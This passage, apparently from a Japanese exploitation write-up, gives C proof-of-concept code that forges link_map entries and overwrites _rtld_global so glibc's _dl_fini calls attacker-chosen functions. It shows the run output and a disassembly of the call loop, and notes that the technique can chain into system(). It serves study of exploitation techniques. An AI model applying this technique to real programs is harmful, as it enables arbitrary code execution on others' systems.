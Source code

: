 ```c
    void* fake_array      = malloc(0x10);
    void* fake_array_size = malloc(0x10);
    void* fake_func_table = malloc(0x10);

    *(unsigned long*)(fake_link_maps[0] + 0x110) = fake_array;          // link_map->l_info[DT_FINI_ARRAY]
    *(unsigned long*)(fake_array + 8) = fake_func_table;

    *(unsigned long*)(fake_link_maps[0] + 0x120) = fake_array_size;     // link_map->l_info[DT_FINI_ARRAY]
    *(unsigned long*)(fake_array_size + 8) = 0x10;

    *(unsigned int*)(fake_link_maps[0] + 0x31c) = 8;                    // link_map->l_init_call (bit field)

    *(unsigned long*)(fake_func_table + 0) = target1;
    *(unsigned long*)(fake_func_table + 8) = target2;

    // overwrite symbols
    *(unsigned long*)rtld_global = (unsigned long)fake_link_maps[0];

    puts("End of main()");
    // _exit(0); //not work
    // exit(0);
    return;
}

```

```
$ ./rtld_global 
Start of main()
libc_base = 0x7fd908050000
rtld_global = 0x7fd9082ba040
End of main()
In target2(): arg1=0x7fd9082baa48
In target1(): arg1=0x7fff8b010e00
```

関数はテーブルの末尾から連続で呼ぶことができる & その際にレジスタがあまり破壊されないので(環境依存)
1ターン目でrdiをセット、2ターン目でsystem()みたいなこともできる。

以下は自分の環境での関数ループの処理
```
   0x7ffff7fc9248 <_dl_fini+520>:       mov    QWORD PTR [rbp-0x38],rax
   0x7ffff7fc924c <_dl_fini+524>:       call   QWORD PTR [rax]
   0x7ffff7fc924e <_dl_fini+526>:       mov    rax,QWORD PTR [rbp-0x38]
   0x7ffff7fc9252 <_dl_fini+530>:       mov    rdx,rax
   0x7ffff7fc9255 <_dl_fini+533>:       sub    rax,0x8
   0x7ffff7fc9259 <_dl_fini+537>:       cmp    QWORD PTR [rbp-0x40],rdx
   0x7ffff7fc925d <_dl_fini+541>:       jne    0x7ffff7fc9248 <_dl_fini+520>
```
